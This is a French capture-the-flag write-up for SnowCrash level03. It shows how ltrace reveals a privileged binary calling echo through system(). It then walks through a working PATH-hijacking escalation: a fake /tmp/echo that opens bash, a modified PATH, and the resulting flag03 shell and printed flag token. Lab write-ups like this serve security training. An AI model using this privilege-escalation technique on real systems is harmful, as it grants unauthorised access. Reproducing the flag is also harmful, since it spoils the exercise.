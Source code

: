 # Level03

Un trouve un exécutable nommé <code>level03</code> qui, quand lancé, nous affiche "Exploit me". On lance donc <code>ltrace</code> pour comprendre ce que fait le programme.

<pre>$ ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()                                             = 2003
geteuid()                                             = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)   = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                     = 0
+++ exited (status 0) +++</pre>

Le programme fait appel à system pour lancer la commande <code>echo</code>. On peut donc créer notre propre version de <code>echo</code> qui lancera <code>/bin/bash</code> avec les droits de l'owner. Pour cela il faut creer notre fichier echo et remplacer le path pour qu'il soit appelé :

<pre>$ echo "/bin/bash" > /tmp/echo
$ chmod 777 /tmp/echo
$ export PATH=/tmp:$PATH</pre>

On lance ensuite le programme :

<pre>level03@SnowCrash:~$ ./level03
bash: /home/user/level03/.bashrc: Permission denied
flag03@SnowCrash:~$</pre>

On voit que notre user a changé, nous sommes maintenant flag03

<pre>$ getflag
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus</pre>

https://opensource.com/article/20/4/linux-binary-analysis
https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code
